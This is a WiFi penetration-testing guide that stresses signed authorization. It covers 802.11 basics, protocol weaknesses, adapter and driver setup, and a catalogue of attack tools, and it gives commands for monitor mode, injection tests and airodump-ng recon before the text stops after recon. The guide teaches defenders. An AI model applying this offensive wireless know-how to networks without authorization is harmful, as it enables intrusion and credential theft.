# WiFi Hacking and Penetration Testing Guide

Hands-on WiFi penetration testing from my lab notes: recon, monitor mode, WPA/WPA2 handshake capture and offline cracking, WPS, evil twin, mdk4, and how a blue team detects and stops each one.

> **Read this first.** For networks you own or have **written permission** to test, in a lab you control. Attacking or jamming WiFi you do not own is illegal almost everywhere (see [legal](#legal-and-ethics)). This exists so defenders understand the attack.

## Scope and safety boundaries
<a id="scope-and-safety-boundaries"></a>

Wireless reaches past the building wall, so staying in an agreed scope is the control that matters most. Read this before monitor mode.

### Authorization comes first
- Do nothing until a signed authorization (a rules-of-engagement document) is in place. That signature is the only thing that separates a penetration test from a crime.
- The authorization names what is **in scope**: the exact SSIDs and BSSIDs, the physical location, the test window, the test accounts and test certificates you may use, and a named technical contact to call.
- It also names what is **out of scope**. On shared airspace a neighbour's network is always out of scope, even when its signal is stronger than the target's.

### In scope only
- Act only on the SSIDs and BSSIDs listed in the authorization. Recon will show dozens of networks; you may touch the ones in scope and no others.
- Capture only what the test needs. Minimise collection, and never read, store, or exfiltrate a third party's traffic.

### Hard boundaries, do not cross these
- **No sustained denial of service.** Deauth/beacon/auth floods and jamming: isolated lab or agreed maintenance window only, briefly, to produce a detection signature. Almost never in scope against production.
- **No harvesting real credentials outside the RoE.** Run RADIUS/evil-twin tests only when the authorization names them, against test identities and labelled lab-only SSIDs, never a live corporate SSID.
- **No targeting people.** This is about a network's configuration, not any individual's device or data.

### Handle captured data carefully
- Store captures and credentials encrypted, on as few machines as possible.
- Redact the report: mask passwords, trim captures to the proof you need.
- Destroy captured secrets once the report is accepted, and record that you did.

### If something breaks, stop
- Unplanned outage or any unexpected effect: stop and call the named contact. A phone call beats pressing on.

Any disruptive or credential-capturing step is marked **lab only**: demo it against hardware you own or an isolated test SSID. Full legal position in [legal and ethics](#legal-and-ethics).

## The whole procedure at a glance

<div align="center">
  
</div>

Three phases, and every attack step has a matching defence step: prove the gap, then show how to detect and close it.

1. **Prepare.** Signed scope and rules-of-engagement, then a monitor-mode adapter on the air. No signature, no test.
2. **Attack (in scope only).** Recon both bands, lock one target, capture the WPA/WPA2 handshake or PMKID, crack it **offline**. Optional: WPS brute force, evil twin, deauth/[mdk4](#mdk4) (lab-only DoS).
3. **Defend and report.** Show detection (IDS, `tshark` on management frames) and hardening (802.11w/PMF, WPA3, WPS off), and write it up. The report is the deliverable, not the crack.

## Contents

**Start here: [Scope and safety boundaries](#scope-and-safety-boundaries).** Every command below assumes written authorization and an in-scope target.

**Foundations**
1. [Why WiFi testing matters](#why-wifi-testing-matters)
2. [Wireless networking fundamentals](#fundamentals)
3. [Wi-Fi security protocols](#wifi-security-protocols)
4. [How a real engagement starts](#how-a-real-engagement-starts)

**Setup**
5. [What you need: adapter, monitor mode, Linux](#what-you-need)
6. [Recommended adapters and where to buy](#recommended-adapters)
7. [External adapter not showing up? Install the driver](#adapter-drivers)
8. [Install the tools](#install-the-tools)
9. [The toolkit, tool by tool (and the aircrack-ng suite)](#toolkit)

**The workflow**
10. [How a hacker cracks a home WiFi password](#attack-overview)
11. [How to turn on monitor mode](#monitor-mode)
12. [Recon: scan for networks and clients](#recon)
13. [Working on 5 GHz and the higher bands](#five-ghz)
14. [Lock onto one target](#lock-onto-one-target)
15. [Capture the WPA/WPA2 handshake](#capture-the-handshake)
16. [Deauth and denial of service](#deauth-and-denial-of-service)
17. [When aireplay-ng is weak: mdk4](#mdk4)
18. [Crack it: aircrack-ng, Hashcat, John](#crack-it)
19. [WPS attacks: wash, reaver, bully](#wps-attacks)
20. [The evil twin](#the-evil-twin)
21. [Automate it: wifite and airgeddon](#automate-it)
22. [Fake authentication and ARP replay (WEP)](#fake-auth)
23. [WPA2-Enterprise / 802.1X testing](#wpa2-enterprise)

**Defence and reporting**
24. [How the blue team detects it](#how-the-blue-team-detects-it)
25. [Hardening and defence](#hardening-and-defence)
26. [Troubleshooting](#troubleshooting)
27. [Choosing the right attack](#choosing-the-right-attack)
28. [Where IoT fits in](#where-iot-fits-in)
29. [Wireless pentest checklist](#checklist)
30. [Common ports reference](#ports)
31. [Professional reporting](#reporting)
32. [References and further learning](#references)
33. [Legal and ethics](#legal-and-ethics)

---

## Why WiFi testing matters
<a id="why-wifi-testing-matters"></a>

WiFi is the soft edge of the network: the radio leaks past the wall into the car park and the floor above, so the AP is a door into the internal network that nobody checks is locked. A test answers three questions: can someone capture and crack the password from outside, can they stand up a fake copy and trick staff onto it, and will anyone notice. The first two are the attack; the third earns the report.

## Wireless networking fundamentals
<a id="fundamentals"></a>

A quick grounding in how WiFi actually works, because every attack later is just abusing one of these normal behaviours.



- **802.11** is the IEEE standard for WiFi. The letters after it are generations: a/b/g/n/ac/ax/be, now marketed as WiFi 4 (n), WiFi 5 (ac), WiFi 6 and 6E (ax), and WiFi 7 (be). Newer generations add speed, 5 GHz and 6 GHz support, and better handling of crowded air.
- **Access point (AP) and stations.** The AP is the base; the clients that join it (laptops, phones, printers, IoT) are **stations**. An AP plus its stations is a **BSS** (Basic Service Set).
- **SSID, ESSID, BSSID.** The **ESSID** is the human network name you pick from a list ("CorpWiFi"). The **BSSID** is the AP's MAC address, unique per radio. Several APs can share one ESSID (a campus) while each has its own BSSID. "SSID" is used loosely to mean the name.
- **Bands.** **2.4 GHz** travels far and through walls but is crowded and slow, and it is what the cheapest attack hardware targets. **5 GHz** is faster and cleaner but shorter range. **6 GHz** (WiFi 6E/7) is newest and least congested. Sensitive devices belong on 5 GHz or 6 GHz, away from 2.4 GHz-only attack adapters.
- **Channels and width.** Each band is split into channels. On 2.4 GHz only **1, 6, and 11** do not overlap. Channel **width** (20, 40, 80, 160 MHz) trades speed for congestion resistance; wider channels on a busy band cause interference.
- **Frame types.** 802.11 traffic is **management** (beacons, probe request/response, authentication, association, deauthentication), **control** (RTS/CTS, ACK), and **data**. Most wireless attacks forge **management** frames, which before WPA3/PMF are unprotected.
- **Beacons and probes.** An AP broadcasts **beacon** frames announcing itself. A client sends **probe requests** looking for known networks, and APs reply with **probe responses**. Probe requests leak the names of networks a device has joined before.
- **Infrastructure vs ad-hoc.** Normal WiFi is **infrastructure** mode (clients through an AP). **Ad-hoc** is device-to-device with no AP, rare in corporate settings.
- **Hidden SSIDs.** An AP can stop putting its name in beacons. This is not security: the name still appears when a client associates, and tools recover it from that exchange.
- **RSSI and SNR.** **RSSI** is received signal strength (closer to 0 is stronger, so -40 is strong and -80 is faint). **SNR** is how far the signal sits above the noise floor; low SNR means an unreliable link even when RSSI looks fine.
- **DFS channels.** Parts of 5 GHz are shared with radar (Dynamic Frequency Selection). APs on DFS channels must listen for radar and move if they hear it, and many client adapters will not transmit on DFS channels at all, which matters when you plan [5 GHz work](#recon).

## Wi-Fi security protocols
<a id="wifi-security-protocols"></a>

The protocol a network runs decides which attacks are possible, so identifying it in [recon](#recon) is half the job. Oldest to newest:

| Protocol | Status | Encryption | Authentication | The weakness you test for |
| --- | --- | --- | --- | --- |
| **Open** | Legacy / guest | None | None | All traffic is in the clear; trivially sniffed and evil-twinned |
| **OWE** (Enhanced Open) | Current | CCMP (AES) | None | Encrypts open WiFi, but no identity check, so a lookalike AP still works |
| **WEP** | Broken, obsolete | RC4 | Shared key | Key recovered in minutes from captured IVs. Flag for replacement on sight |
| **WPA** | Deprecated | TKIP | PSK | TKIP is broken; treat as end-of-life. "You are still on TKIP" is itself a finding |
| **WPA2-Personal** | Common | CCMP (AES) | PSK | One shared passphrase: capture the handshake or PMKID, crack offline |
| **WPA2-Enterprise** | Common (corp) | CCMP (AES) | 802.1X / EAP | No shared password; the flaw is clients that skip RADIUS cert validation |
| **WPA3-Personal** | Current | CCMP (AES) | SAE | SAE resists offline cracking; the real paths are transition-mode downgrade, WPS, and client trust |
| **WPA3-Enterprise** | Current (corp) | CCMP / GCMP | 802.1X / EAP | Same cert-validation question as WPA2-Enterprise, with optional 192-bit mode |

### The acronyms, in one place
- **TKIP** the old WPA cipher, built to patch WEP on existing hardware. Broken, do not accept it on a modern network.
- **CCMP / AES** the modern cipher used by WPA2 and WPA3. CCMP is the AES-based mode; "AES" in a router UI means this.
- **PSK** (Pre-Shared Key) one passphrase shared by everyone on the network. The WPA2-Personal model.
- **SAE** (Simultaneous Authentication of Equals, the "Dragonfly" handshake) WPA3-Personal's replacement for PSK. It is designed so a captured handshake cannot be cracked offline the way a WPA2 one can.
- **802.1X** the port-based access-control framework behind Enterprise WiFi: the client authenticates before it is allowed on.
- **EAP** (Extensible Authentication Protocol) the family of methods 802.1X carries (PEAP, EAP-TTLS, EAP-TLS, EAP-FAST).
- **RADIUS** the back-end server that actually checks Enterprise credentials, usually tied to Active Directory.
- **PMF / 802.11w** (Protected Management Frames) signs management frames so forged deauths are ignored. Optional on WPA2, mandatory on WPA3. This one setting kills the deauth attack.

### Testing WPA3

WPA3 kills the two attacks this guide leans on hardest:

- **Offline cracking is dead against SAE.** No capture to grind against rockyou; password strength stops being the finding.
- **Deauth is dead where PMF is on.** WPA3 mandates PMF, so forged deauths are ignored.

So on WPA3 you check a smaller set:

1. **Transition-mode downgrade.** Most run **WPA3-transition** (mixed mode), still accepting WPA2 for old devices. If so, capture the WPA2 handshake as usual. Confirming WPA3-only vs transition is the most useful WPA3 finding.
2. **Dragonblood (2019).** Early SAE had side-channel and downgrade bugs (CVE-2019-9494). Mostly patched, so note patch level and firmware age.
3. **WPS is still WPS.** If WPS is on, the SAE upgrade is moot.
4. **Client trust still applies.** Evil twin and OWE spoofing still work; nothing verifies the AP identity. This is usually where WPA3 testing lands.
5. **Enterprise is unchanged.** Still rises or falls on RADIUS cert validation (see [Enterprise](#wpa2-enterprise)).

First question on WPA3 is not "how do I crack it" but "is it really WPA3-only, and does it expose WPS or a trusting client". Strict WPA3-only + PMF + no WPS is a strong posture: say so in the report.

## How a real engagement starts
<a id="how-a-real-engagement-starts"></a>

A test starts with paperwork, not a laptop. Agree **scope** in writing (which SSIDs/BSSIDs, location, test window, what is off-limits: usually no outages in business hours, no touching the neighbour's network), and get it signed. That signature is the only thing separating a pentest from a crime.

Then work the in-scope target: map the air, capture a handshake, crack offline, test evil-twin trust if in scope, and write up what worked, the password strength, whether PMF was on, and whether monitoring saw you. It does not end at the crack; it ends at a retest that confirms the fix.



## What you need
<a id="what-you-need"></a>

**A WiFi adapter with monitor mode and packet injection.** The one piece of kit that matters.

- **Monitor mode** listens to every 802.11 frame in the air, not just your own network; **injection** sends crafted frames like deauth. Together they are what airodump and aireplay need.
- **Myth:** monitor mode does not harm your card, it is a software mode. Many laptop internal cards (especially Intel) just do not support it well. Fix: an external USB adapter with a known-good chipset.
- **Linux:** Kali or Parrot (main OS, dual boot, or live USB). In a VM, pass the USB adapter through to the guest.

## Recommended adapters
<a id="recommended-adapters"></a>

The chipset is everything. These are the chipsets with solid monitor mode and injection support on Linux, and the adapters that carry them.

| Adapter | Chipset | Bands | Notes |
| --- | --- | --- | --- |
| **Alfa AWUS036NHA** | Atheros AR9271 | 2.4GHz | The classic. Rock-solid injection, works out of the box on Kali. My first pick for reliability. |
| **Alfa AWUS036ACM** | MediaTek MT7612U | 2.4 / 5GHz | Best modern dual-band option, in-kernel driver, no out-of-tree mess. |
| **Alfa AWUS036ACH / AXML** | RTL8812AU | 2.4 / 5GHz | Dual-band, long range, needs the `88XXau` driver on some kernels. |
| **Panda PAU09** | Ralink RT5372 | 2.4 / 5GHz | Cheap and dependable for 2.4GHz work. |
| **TP-Link TL-WN722N v1** | Atheros AR9271 | 2.4GHz | Great, but **only v1**. v2 and v3 use a Realtek chip that needs patched drivers. |

**Buy globally.** Alfa adapters ship worldwide. These search links stay valid wherever you are:

- Alfa AWUS036NHA: [Amazon](https://www.amazon.com/s?k=Alfa+AWUS036NHA) | [AliExpress](https://www.aliexpress.com/w/wholesale-alfa-awus036nha.html)
- Alfa AWUS036ACM: [Amazon](https://www.amazon.com/s?k=Alfa+AWUS036ACM) | [AliExpress](https://www.aliexpress.com/w/wholesale-alfa-awus036acm.html)
- Alfa AWUS036ACH: [Amazon](https://www.amazon.com/s?k=Alfa+AWUS036ACH) | [AliExpress](https://www.aliexpress.com/w/wholesale-alfa-awus036ach.html)
- Official manufacturer and distributor list: [alfa.com.tw](https://www.alfa.com.tw)

**On a budget / in India,** a TP-Link works to learn on. I started on a TP-Link Archer T2U Plus (RTL8821AU), around 1000 to 1100 INR, driver support on Kali and Parrot. Just know its monitor mode is less reliable than an Alfa.

- TP-Link T2U Plus: [Amazon India](https://www.amazon.in/TP-Link-Wireless-Adapter-Archer-T2U/dp/B07P681N66) | [Flipkart](https://www.flipkart.com/tp-link-ac600-t2u-plus-usb-adapter/p/itmfhz7zg85hgtzg)

> One I would **skip**: the TP-Link Archer T3U Plus (RTL8812BU). The 8812BU needs an out-of-tree driver and injection is unreliable. Save yourself the pain and get an Alfa.

## External adapter not showing up? Install the driver
<a id="adapter-drivers"></a>

**Parrot vs Kali.** On **Parrot OS** most of these adapter drivers ship preinstalled, so a good external adapter often just works. On **Kali** they usually do **not**: plug in a dual-band Realtek adapter and if no `wlanX` appears, you need to build its driver. That, not a broken adapter, is almost always why an external adapter "does not show up".

**Step 1: plug it in and identify it.**

```bash
lsusb                  # list USB devices; find your adapter and read its chipset
iwconfig               # does a wlanX interface appear? if not, you need a driver
sudo dmesg | tail -20  # right after plugging in, shows what the kernel tried to load
```

**Step 2: match the chipset to a driver.** These are the aircrack-ng forks, which have the best monitor-mode and injection support:

| Chipset (from `lsusb`) | Driver repo |
| --- | --- |
| Realtek **8812au / 8821au** (Alfa AWUS036ACH and many dual-band cards) | [rtl8812au](https://github.com/aircrack-ng/rtl8812au) |
| Realtek **8814au** (high-power dual-band) | [rtl8814au](https://github.com/aircrack-ng/rtl8814au) |
| Realtek **8188eus / 8188eu** | [rtl8188eus](https://github.com/aircrack-ng/rtl8188eus) |
| Atheros **AR9271**, MediaTek **MT7612U** | in-kernel, no build needed |

**Step 3a: install with the script (easiest).** `Documents/driver-setup.sh` is interactive: option 1 identifies your adapter and the driver bound to it, and options 2 to 4 build the driver you pick from the repos above via DKMS (so it survives kernel updates).

```bash
git clone https://gitlab.com/deathesther/wifi-hacking-guide
cd wifi-hacking-guide
chmod +x Documents/driver-setup.sh
sudo ./Documents/driver-setup.sh
```

**Step 3b: or build by hand.** Install the prerequisites, clone the matching repo, and DKMS-install. Example for the most common chipset (8812au):

```bash
sudo apt install -y git dkms build-essential libelf-dev linux-headers-$(uname -r)
git clone --depth 1 https://github.com/aircrack-ng/rtl8812au.git
cd rtl8812au
sudo make dkms_install          # registers with DKMS so it survives kernel updates
```

The **rtl8814au** and **rtl8188eus** repos install exactly the same way (`git clone`, `cd`, `sudo make dkms_install`). After any build, **unplug and replug the adapter** (or reboot) so the new driver loads, then confirm with `lsusb` and `iwconfig`.

## Install the tools
<a id="install-the-tools"></a>

With the adapter working, install the toolkit. On Kali most of it is already present:

```bash
sudo apt update
sudo apt install aircrack-ng hashcat hcxdumptool hcxtools wifite reaver bully hostapd dnsmasq mdk4 macchanger -y
```

`Documents/install.sh` runs this same install in one go, and can also build the drivers from the [previous section](#adapter-drivers). It is safe to re-run and does not reboot your machine.

```bash
chmod +x Documents/install.sh
sudo ./Documents/install.sh
```

## The toolkit, tool by tool
<a id="toolkit"></a>

What each tool is for, how to get it, and its limits, grouped by job. **apt** = ships in Kali or `sudo apt install`; a few Enterprise tools are a `git clone`.

### Recon and monitoring
| Tool | Role | Install | Notes and limits |
| --- | --- | --- | --- |
| `iw` / `iwconfig` / `iwlist` | Query and set the wireless interface (mode, channel, scan) | apt (`iw`, `wireless-tools`) | `iw` is the modern tool; `iwconfig`/`iwlist` are legacy but still handy for a quick `iwlist scan` in managed mode |
| `airodump-ng` | Live AP and client discovery, handshake capture | apt (aircrack-ng) | 2.4 GHz only unless you pass `--band abg`; see the [aircrack-ng suite](#aircrack-suite) |
| `kismet` | Passive wireless IDS and long-run survey, logs every device it hears | apt | Great for detection and mapping, not for injection. Web UI on `:2501`. Honest limitation: single-adapter coverage is only the channels it hops |
| `wavemon` | ncurses live signal/noise meter for one link | apt | Managed-mode link quality only, useful for aiming antennas, not for attack |
| `bettercap` | Modular network attack framework with a `wifi` module (recon, deauth, handshake capture) | apt | Powerful and scriptable (caplets); its 802.11 features need a capable adapter and overlap with the aircrack suite. Lab-only for the disruptive bits |

### Capture and crack
| Tool | Role | Install | Notes and limits |
| --- | --- | --- | --- |
| `hcxdumptool` | Capture PMKID and EAPOL directly, often with no client | apt (hcxdumptool) | Modern replacement for client-dependent capture; respects a filter list so you stay in scope |
| `hcxtools` (`hcxpcapngtool`) | Convert captures to hashcat's 22000 format | apt | `hcxpcaptool` and mode 16800 are legacy; use `hcxpcapngtool` and 22000 |
| `hashcat` | GPU password recovery (mode 22000 for WPA, 5500 for MSCHAPv2) | apt | The real workhorse. Needs a capable GPU for speed; CPU works but is slow |
| `aircrack-ng` | CPU dictionary attack against a capture, quick WEP cracking | apt | Fine for a fast check or weak keys; hashcat is faster for anything serious |
| `john` (John the Ripper) | Alternative cracker, flexible rules | apt | Overlaps hashcat; useful where you already know John's rule syntax |
| `cewl` / `cupp` / `crunch` | Build targeted wordlists (site scrape / profile / pattern) | apt (`cewl`, `crunch`); cupp via git | A targeted list beats a generic one; this step, not the attack, usually decides a WPA2-PSK result |

### Rogue AP, evil twin, Enterprise
| Tool | Role | Install | Notes and limits |
| --- | --- | --- | --- |
| `airbase-ng` | Stand up a basic rogue/evil-twin AP | apt (aircrack-ng) | Simple and scriptable; see [the evil twin](#the-evil-twin). Lab only |
| `hostapd` | Full-featured software AP | apt | The building block real APs and lab rigs use |
| `hostapd-wpe` | hostapd patched to impersonate a RADIUS server and log credentials | git / Kali pkg | Enterprise impersonation, [lab only](#wpa2-enterprise); captures MSCHAPv2 for offline cracking |
| `eaphammer` | Turnkey Enterprise evil twin (rogue AP + RADIUS + cred capture) | git clone | Automates the hostapd-wpe flow; needs `--cert-wizard` once. Lab only, name it in the RoE |
| `dnsmasq` | DHCP and DNS for a rogue AP so clients get an address | apt | Pair with a bridge; misconfigure and you can hand addresses to real clients, so lab only |
| `freeradius` | Real RADIUS server, for building an Enterprise test bed you own | apt | Use it to stand up a legitimate 802.1X lab to practise against |
| `crEAP` / `eapeak` | Identify EAP methods and harvest outer identities from the air or a pcap | git clone | Passive, read-only; good first step on Enterprise before any impersonation |
| `asleap` | Crack captured MSCHAPv2 challenge/response | apt | Pairs with hostapd-wpe/eaphammer output; `hashcat -m 5500` does the same |
| `air-hammer` | Horizontal 802.1X password spray | git clone | Keep attempt counts low so real staff are not locked out; in-scope only |

### Disruption and stress (lab only)
| Tool | Role | Install | Notes and limits |
| --- | --- | --- | --- |
| `aireplay-ng` | Inject specific frames (deauth, fakeauth, arpreplay, test) | apt (aircrack-ng) | Precise single-purpose injection; see the [deauth section](#deauth-and-denial-of-service) |
| `mdk4` | All-round 802.11 stress tool, ten attack modes | apt | Broad disruption; [lab only](#mdk4). Successor to mdk3 |
| `macchanger` | Change or randomise your adapter MAC | apt | For MAC-spoof detection tests and privacy during a test |

### Analysis
| Tool | Role | Install | Notes and limits |
| --- | --- | --- | --- |
| `wireshark` / `tshark` | Decode and filter captured frames (GUI / CLI) | apt | The reference analyser; `tshark` scripts the same filters. Reads radiotap and 802.11 management frames |
| `tcpdump` | Lightweight capture to a pcap for later analysis | apt | No decode UI, but everywhere and tiny |
| `scapy` | Python library to craft, send, and dissect arbitrary frames | apt (`python3-scapy`) | For custom probes and detection scripts when a canned tool does not fit; you write the logic |
| `wifite` / `airgeddon` | Menu-driven wrappers over the whole suite | apt | Fast once you know the manual flow; an automated tool you cannot debug is useless when it misbehaves. See [automate it](#automate-it) |

### The aircrack-ng suite, utility by utility
<a id="aircrack-suite"></a>

Most of the workflow above runs on the aircrack-ng suite, which is not one program but a set of focused utilities. Here is the whole set and what each one is for, so a reference in a command makes sense. The ones in **bold** are the ones you use on almost every engagement; the rest are situational or legacy (mostly WEP-era).

| Utility | What it does | When you reach for it |
| --- | --- | --- |
| **`airmon-ng`** | Enable/disable monitor mode, kill interfering processes | Start of every session (`airmon-ng check kill`, `start wlan0`) |
| **`airodump-ng`** | Capture frames, list APs/clients, save handshakes | Recon and handshake capture, constantly |
| **`aireplay-ng`** | Inject frames: deauth, fakeauth, arpreplay, test | Force a reconnect, test injection, WEP replay |
| **`aircrack-ng`** | Crack WEP (statistical) and WPA/WPA2 (dictionary) | Quick CPU crack of a capture |
| `airbase-ng` | Act as a rogue/evil-twin AP | Evil twin and client-trust tests (lab only) |
| `airdecap-ng` | Decrypt a WEP/WPA capture once you have the key | Prove impact: decrypt the traffic you captured |
| `airdecloak-ng` | Remove WEP cloaking from a capture | Rare, cleaning a WEP capture |
| `airolib-ng` | Precompute and store PMKs per ESSID for faster WPA cracking | Speed up repeated WPA2-PSK cracks on one ESSID |
| `airserv-ng` | Share one wireless card over TCP to other tools | Run the card on one host, tools on another |
| `airtun-ng` | Virtual tunnel interface for injecting/monitoring decrypted traffic | Inject into or observe a decrypted stream |
| `packetforge-ng` | Forge custom (usually ARP) encrypted frames | WEP fragmentation/chop-chop injection |
| `ivstools` | Merge/convert `.ivs` files | WEP IV handling |
| `makeivs-ng` | Generate a test `.ivs` file | Lab testing of the WEP tooling |
| `wesside-ng` | Automated all-in-one WEP key recovery | Legacy WEP demo only |
| `easside-ng` | Talk to an AP without the WEP key via a helper | Legacy WEP, rare |
| `buddy-ng` | Helper daemon for easside-ng | Only with easside-ng |
| `tkiptun-ng` | Proof-of-concept WPA-TKIP attack | Demonstrating that TKIP is broken, legacy |
| `airdecloak-ng` | WEP decloaking (see above) | Legacy |
| `airventriloquist-ng` | Inject content into an encrypted session | Advanced/experimental |

The practical core is the four in bold. Most of the rest exist for WEP, which you will rarely meet outside a lab, but they are worth recognising when you see them referenced.

## How a hacker cracks a home WiFi password
<a id="attack-overview"></a>

The whole attack is four steps. The rest of this guide demonstrates each one in order.



Now let us demonstrate it, starting with the adapter.

## How to turn on monitor mode
<a id="monitor-mode"></a>

First, find your adapter. Plug it in and check it is seen on the USB bus:

```bash
lsusb
```

Then look at your wireless interfaces. On Kali the internal or first adapter is usually `wlan0`; a second one shows as `wlan1`. I always work off the interface name (`wlan0`) rather than the nickname, because the name is what every tool expects.

```bash
iwconfig
```

It will say `Mode:Managed`. Two ways to flip it to monitor.

### How to turn on monitor mode manually (iw / ifconfig)

```bash
sudo airmon-ng check kill           # stop NetworkManager and wpa_supplicant so they stop fighting you (this drops your WiFi, do not panic)
sudo ifconfig wlan0 down
sudo iw wlan0 set monitor control   # modern way (iw). Older equivalent: sudo iwconfig wlan0 mode monitor
sudo ifconfig wlan0 up
iwconfig                            # confirm it now says Mode:Monitor
```

### How to turn on monitor mode with airmon-ng

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

This renames the interface, usually to `wlan0mon`, and puts it in monitor mode:

```
PHY     Interface   Driver      Chipset
phy0    wlan0       ath9k_htc   Atheros AR9271
        (mac80211 monitor mode enabled on [phy0]wlan0mon)
```

### How to check your adapter can do packet injection

No point attacking with a card that cannot inject:

```bash
sudo aireplay-ng --test wlan0mon
```

A healthy adapter reports APs responding and a percentage of injected packets getting through.

## Recon
<a id="recon"></a>

Recon is a loop: sweep both bands, read the security of each network, and only then narrow to one in-scope target. The path from "what is in the air" to "what do I attack" branches on the protocol you find.



List everything in the air:

```bash
sudo airodump-ng wlan0mon
```

By default airodump only scans 2.4GHz. To sweep 2.4GHz and 5GHz together, add `--band abg`. The letters are the 802.11 PHYs: `a` is 5GHz, `b` and `g` are 2.4GHz. So `abg` means "scan all of them."

```bash
sudo airodump-ng wlan0mon --band abg
```

Example output (illustrative, synthetic data):

<div align="center">
  
</div>

What the columns mean:

- **BSSID** the access point's MAC address
- **PWR** signal strength (closer to 0 is stronger; -39 is strong, -75 is faint)
- **CH** channel
- **ENC / CIPHER / AUTH** the security (WPA2 / CCMP / PSK is a normal home or office network; OPN is open)
- **ESSID** the network name
- The lower pane lists **STATION**s, the client devices connected to each AP

`iwlist wlan0 scan` gives similar information in managed mode if you just want a quick look without going full monitor.

